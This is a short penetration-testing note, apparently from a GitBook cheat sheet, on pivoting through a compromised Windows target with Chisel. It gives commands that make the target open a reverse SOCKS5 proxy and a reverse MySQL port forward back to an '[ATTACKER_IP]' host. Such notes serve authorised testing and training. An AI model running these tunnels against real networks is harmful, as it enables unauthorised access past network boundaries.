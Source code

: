 ```yaml
---
description: >-
  Example scenario for pivoting using Chisel. Note, this example assumes that
  the attacking system is Linux and the target system is Windows.
---
```


# Using Chisel to Pivot

### Setting up a SOCKS Proxy with Chisel

1. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)
   * Note, you will need one for your attacking system and one to be uploaded to the target system.
2. On the attacking system: `./chisel server --socks5 --reverse -p 8000`
3. On the target system: `.\chisel.exe client [ATTACKER_IP]:8000 R:socks`
4. Observe on the attacking system that the SOCKS5 connection has been successfully established.

### Forwarding One Port with Chise;

On the attacking system:

```bash
./chisel server 9000 -reverse
```

On the target system:&#x20;

```bash
.\chisel client [ATTACKER_IP]:9000 R:3306:127.0.0.1:3306
```

### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep 3306
```

### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running `nmap -sC -sV -p3306 -n localhost`

### References

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}
